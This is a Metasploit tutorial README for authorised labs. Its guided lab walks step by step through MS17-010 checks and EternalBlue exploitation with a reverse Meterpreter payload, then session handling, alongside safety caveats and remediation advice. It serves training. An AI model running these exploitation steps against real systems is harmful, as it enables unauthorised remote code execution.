

# The Complete Metasploit Guide (2026 Edition)

A structured guide to the Metasploit Framework, covering safe lab setup, module selection, vulnerability verification, session management, database-backed workflows, reporting, and a guided EternalBlue simulation based on an authorised TryHackMe-style environment.

> [!CAUTION]
> **Legal and ethical use only.** Use Metasploit only against systems you own, systems for which you have explicit written authorisation, or deliberately vulnerable training environments such as TryHackMe, Hack The Box, or an isolated local virtual lab. Never test public, university, workplace, or third-party systems without written permission.

> [!IMPORTANT]
> The EternalBlue exercise below is intended only for an intentionally vulnerable training machine. Use the target address assigned by your lab platform. Do not substitute a public or organisational IP address.

---

## Table of Contents

1. [Lab Safety and Scope](#lab-safety-and-scope)
2. [Metasploit Architecture](#metasploit-architecture)
3. [Starting Metasploit](#starting-metasploit)
4. [Core Commands](#core-commands)
5. [Searching and Selecting Modules](#searching-and-selecting-modules)
6. [Understanding Module Options](#understanding-module-options)
7. [Guided Lab: MS17-010 and EternalBlue](#guided-lab-ms17-010-and-eternalblue)
8. [Session Management](#session-management)
9. [Database Integration and Workspaces](#database-integration-and-workspaces)
10. [Resource Scripts and Logging](#resource-scripts-and-logging)
11. [Auxiliary and Post Modules](#auxiliary-and-post-modules)
12. [Payload Concepts](#payload-concepts)
13. [Pivoting Concepts](#pivoting-concepts)
14. [Further Learning](#further-learning)

---

## Lab Safety and Scope

Before starting, record the following information:

```text
Lab platform:        TryHackMe / local isolated lab
Authorised target:   <LAB_TARGET_IP>
Attacker address:    <LAB_ATTACKER_IP>
Permitted ports:     As stated by the lab
Start time:          <DATE_AND_TIME>
End time:            <DATE_AND_TIME>
Rules of engagement: Training activity only
```

### Required safety controls

- Use the TryHackMe AttackBox, VPN-assigned room target, or an isolated host-only virtual network.
- Take snapshots of local virtual machines before testing.
- Do not use bridged networking for a deliberately vulnerable host.
- Do not scan adjacent addresses unless the lab explicitly includes them.
- Stop if the observed system does not match the authorised target.
- Keep evidence, commands, and findings inside the approved coursework or lab record.

---

## Metasploit Architecture

| Component | Purpose |
|---|---|
| Exploit | Targets a specific vulnerability or unsafe condition. |
| Auxiliary module | Performs scanning, enumeration, verification, or supporting tasks. |
| Payload | Defines the action requested after a successful exploit. |
| Post module | Performs an authorised action against an existing session. |
| Encoder | Transforms payload bytes for compatibility; it is not a guarantee of detection avoidance. |
| Session | Represents an established interaction channel. |
| Job | A module running in the background. |
| Workspace | Separates hosts, services, findings, notes, and evidence by engagement. |

### Important terms

- **RHOSTS:** The authorised remote target or target range.
- **RPORT:** The service port on the remote host.
- **LHOST:** The local interface used for a lab callback.
- **LPORT:** The local listener port.
- **SESSION:** The identifier of an existing shell or Meterpreter session.

---

## Starting Metasploit

### 1. Confirm the framework version

```bash
msfconsole --version
```

### 2. Initialise the database once

```bash
sudo msfdb init
```

### 3. Start the console

```bash
msfconsole
```

### 4. Confirm database connectivity

```text
db_status
```

A connected database allows Metasploit to organise hosts, services, vulnerabilities, credentials, loot, sessions, and routes inside workspaces.

---

## Core Commands

```text
help                   Display available commands
version                Show the framework version
search <keyword>       Search for modules
use <module>           Load a module
info                   Show module details and references
show options           Display required and optional settings
show payloads          List compatible payloads
show targets           List supported target profiles
set <option> <value>   Set a module option
unset <option>         Remove a module option
setg <option> <value>  Set a global option
unsetg <option>        Remove a global option
check                  Run the module's non-destructive check, if supported
run                    Execute an auxiliary or post module
exploit                Execute an exploit module
back                   Leave the current module
exit                   Close msfconsole
```

> [!NOTE]
> Not every exploit supports `check`. Read `info`, review side effects, and confirm that the operating system, architecture, service, patch level, and module target are appropriate.

---

## Searching and Selecting Modules

Metasploit search filters help narrow a large module collection.

```text
search name:eternalblue
search cve:2017-0144
search type:exploit platform:windows smb
search type:auxiliary platform:windows smb
search rank:excellent platform:windows type:exploit
```

| Filter | Example |
|---|---|
| `type:` | `exploit`, `auxiliary`, `post`, `payload` |
| `platform:` | `windows`, `linux`, `unix`, `osx`, `android` |
| `cve:` | `cve:2017-0144` |
| `name:` | `name:eternalblue` |
| `author:` | Search by module author |
| `rank:` | `excellent`, `great`, `good`, `normal`, `average`, `low`, `manual` |

### Module review checklist

Before running any module:

1. Read `info`.
2. Confirm affected products and versions.
3. Review module references and notes.
4. Check the module rank and listed side effects.
5. Confirm architecture and target profile.
6. Run `show options` and resolve every required field.
7. Use `check` if the module supports it.
8. Test against a clone or training image before using it in a formal engagement.

---

## Understanding Module Options

After loading a module, run:

```text
show options
```

Common fields include:

```text
RHOSTS   Authorised remote target
RPORT    Remote service port
LHOST    Local callback interface
LPORT    Local listener port
PAYLOAD  Action used after successful exploitation
TARGET   Operating-system or application profile
SESSION  Existing session used by a post module
```

To identify the correct lab interface, use the interface provided by the platform. For TryHackMe, this is usually the AttackBox interface or the VPN tunnel address, not a public Wi-Fi address.

---

# Guided Lab: MS17-010 and EternalBlue

## Scenario

You are assessing an intentionally vulnerable Windows training machine in an isolated lab. The objective is to identify SMB exposure, verify MS17-010, understand the Metasploit workflow, establish a training session, and recommend defensive controls.

### Lab variables

Replace only the placeholders supplied by your authorised platform:

```text
LAB_TARGET_IP=<assigned target address>
LAB_ATTACKER_IP=<AttackBox or VPN address>
```

Do not copy the IP addresses shown in public walkthroughs, because each lab instance may assign different addresses.

---

## Task 1: Start the target and confirm scope

1. Start the TryHackMe Blue target or your instructor-provided vulnerable VM.
2. Record the assigned target IP address.
3. Confirm that your attacker machine is connected to the same authorised lab environment.
4. Record the room name, date, and start time.

**Checkpoint:** You should have one authorised target address and one attacker address.

---

## Task 2: Perform controlled reconnaissance

Use a service and default-script scan against the single authorised host:

```bash
nmap -sV -sC -Pn <LAB_TARGET_IP>
```

Look for the following training indicators:

- TCP port `445` is open.
- SMB or Microsoft-DS is identified.
- The system resembles an older Windows host.

### Interpretation

An open port confirms only that a service is reachable. It does not prove that MS17-010 is present. A vulnerability-specific check is still required.

**Evidence to capture:** The command, target address, relevant open ports, detected services, and scan time.

---

## Task 3: Verify MS17-010 safely

Use the Nmap vulnerability-checking script against port 445:

```bash
nmap -p 445 --script smb-vuln-ms17-010 <LAB_TARGET_IP>
```

Alternatively, use Metasploit's SMB checker:

```text
msfconsole
search name:smb_ms17_010
use auxiliary/scanner/smb/smb_ms17_010
show options
set RHOSTS <LAB_TARGET_IP>
run
```

### Expected training result

The intentionally vulnerable lab should report that the host is likely vulnerable. If the result is negative or uncertain:

- Reconfirm the target address.
- Confirm the target VM is fully started.
- Check that your VPN or AttackBox connection is active.
- Do not proceed against another address.

**Checkpoint:** Record the evidence that supports or rejects the MS17-010 finding.

---

## Task 4: Review the EternalBlue module

Search for the module:

```text
search name:ms17_010_eternalblue
```

Load it and read its documentation:

```text
use exploit/windows/smb/ms17_010_eternalblue
info
show options
show targets
show payloads
```

Before continuing, answer:

- Which operating systems and architectures are supported?
- What port is targeted by default?
- Does the module support `check`?
- What side effects or stability warnings are listed?
- Does the module match the training host?

---

## Task 5: Configure the authorised lab target

Set only the values assigned by the lab:

```text
set RHOSTS <LAB_TARGET_IP>
set RPORT 445
set LHOST <LAB_ATTACKER_IP>
```

Select the payload required by the training room or instructor. For a 64-bit Windows training host, a lab may specify:

```text
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Review all settings:

```text
show options
```

Run the module check if available:

```text
check
```

### Pre-execution checklist

- [ ] The target address matches the lab page.
- [ ] Port 445 is in scope.
- [ ] The vulnerability checker indicates MS17-010.
- [ ] `LHOST` is the AttackBox or VPN interface.
- [ ] The payload architecture matches the target.
- [ ] No public or institutional addresses are included.

---

## Task 6: Execute only in the authorised lab

After completing the checklist, run:

```text
run
```

If the training exploit succeeds, Metasploit should create a session. Immediately record:

- Session ID
- Session type
- Target address
- Connection time
- Module used

List sessions:

```text
sessions -l
```

Interact with the assigned session:

```text
sessions -i <SESSION_ID>
```

Confirm the training context without collecting personal data:

```text
sysinfo
getuid
```

Background the session when finished:

```text
background
```

> [!WARNING]
> Do not enable persistence, capture keystrokes, activate cameras or microphones, collect real credentials, or access unrelated files. Those actions are unnecessary for this learning objective.

---

## Task 7: Session management practice

```text
sessions -l                     List active sessions
sessions -i <ID>                Interact with a session
sessions -v                     Show detailed session information
sessions -k <ID>                Close a specific session
```

Inside a session:

```text
background                      Return to msfconsole without closing the session
exit                            Close the current session
```

A plain command shell can sometimes be upgraded in an authorised lab:

```text
sessions -u <SESSION_ID>
```

If the automatic upgrade is unavailable, inspect the documented post module rather than running it blindly:

```text
info post/multi/manage/shell_to_meterpreter
```

---

## Task 8: Record the finding

Use a concise finding format:

```text
Title:       MS17-010 exposure on legacy SMB service
Asset:       <LAB_TARGET_IP>
Severity:    Critical in the training scenario
Evidence:    Port 445 open and authorised checker reported likely vulnerable
Impact:      Potential remote code execution under vulnerable conditions
Cause:       Missing security update and legacy SMBv1 exposure
Remediation: Apply security updates, disable SMBv1, restrict TCP/445, segment or replace legacy systems
Validation:  Repeat the vulnerability check after remediation
```

---

## Task 9: End the lab safely

1. Close all sessions.
2. Stop background jobs.
3. Stop the target VM or room instance.
4. Save console output and screenshots.
5. Remove any temporary lab files.
6. Record the end time.

```text
sessions -K
jobs -K
spool off
exit
```

---

## Session Management

```text
sessions -l                 List sessions
sessions -v                 Show verbose details
sessions -i <ID>            Interact with a session
sessions -k <ID>            Close one session
sessions -K                 Close all sessions
sessions -u <ID>            Attempt an authorised shell upgrade
```

Metasploit also supports session search fields such as session ID, session type, and last check-in. Use `sessions -h` to review the syntax supported by your installed version.

---

## Database Integration and Workspaces

### Create a workspace

```text
workspace
workspace -a blue_lab
workspace blue_lab
```

### Import scan data directly

```text
db_nmap -sV -sC -Pn <LAB_TARGET_IP>
hosts
services
vulns
notes
loot
```

### Import an existing XML scan

```bash
nmap -sV -oX blue-scan.xml <LAB_TARGET_IP>
```

```text
db_import blue-scan.xml
hosts
services
```

### Export workspace data

```text
db_export -f xml blue-lab-export.xml
```

Use a separate workspace for each lab or engagement so evidence does not become mixed.

---

## Resource Scripts and Logging

### Record console output

```text
spool blue-lab-console.txt
```

Stop recording:

```text
spool off
```

### Create a safe resource script

Create `blue-enumeration.rc`:

```text
workspace -a blue_lab
use auxiliary/scanner/smb/smb_version
set RHOSTS <LAB_TARGET_IP>
run
back
hosts
services
```

Run it with:

```bash
msfconsole -r blue-enumeration.rc
```

Resource scripts should contain only in-scope, reviewed commands. Do not hard-code real credentials or public targets.

---

## Auxiliary and Post Modules

### Auxiliary modules

Auxiliary modules support scanning and verification without necessarily exploiting a target.

```text
show auxiliary
search type:auxiliary smb
use auxiliary/scanner/smb/smb_version
show options
set RHOSTS <LAB_TARGET_IP>
run
```

### Post modules

Post modules operate against an existing authorised session.

```text
search type:post platform:windows
use post/<module>
show options
set SESSION <SESSION_ID>
info
```

Review a post module's purpose, required privileges, side effects, and evidence impact before running it.

---

## Payload Concepts

### Bind and reverse payloads

- A **reverse payload** asks the target to connect back to the tester's authorised listener.
- A **bind payload** asks the target to listen for an incoming connection.
- A **staged payload** transfers a small initial stage before loading the full payload.
- A **stageless payload** contains the required functionality in one payload.

Use only the payload specified by the lab. Do not generate standalone payload files for distribution or delivery outside the isolated environment.

---

## Pivoting Concepts

Pivoting routes authorised assessment traffic through an existing session to reach an otherwise inaccessible lab subnet. It is an advanced technique that can unintentionally broaden scope.



Before practising pivoting:

- Obtain explicit approval for the internal subnet.
- Record the exact CIDR range.
- Confirm that no production network is connected.
- Use a dedicated advanced lab.
- Remove routes and proxies at the end.

This guide intentionally excludes an operational pivoting walkthrough. Use the official Metasploit pivoting documentation inside a purpose-built lab.

---

## Further Learning

- [Official Metasploit Documentation](https://docs.metasploit.com/)
- [Metasploit Database Support](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html)
- [Managing Sessions](https://docs.metasploit.com/docs/using-metasploit/basics/managing-sessions.html)
- [How to Use a Metasploit Module Appropriately](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-metasploit-module-appropriately.html)
- [Metasploit Framework on GitHub](https://github.com/rapid7/metasploit-framework)
- [TryHackMe Blue Room](https://tryhackme.com/room/blue)

---

## Repository Notice

This repository is intended for authorised penetration testers, cybersecurity students, instructors, and lab learners. Contributions should improve safety, accuracy, defensive understanding, documentation quality, or reproducibility within legal training environments.

**Learn responsibly, document carefully, and test only within scope.**
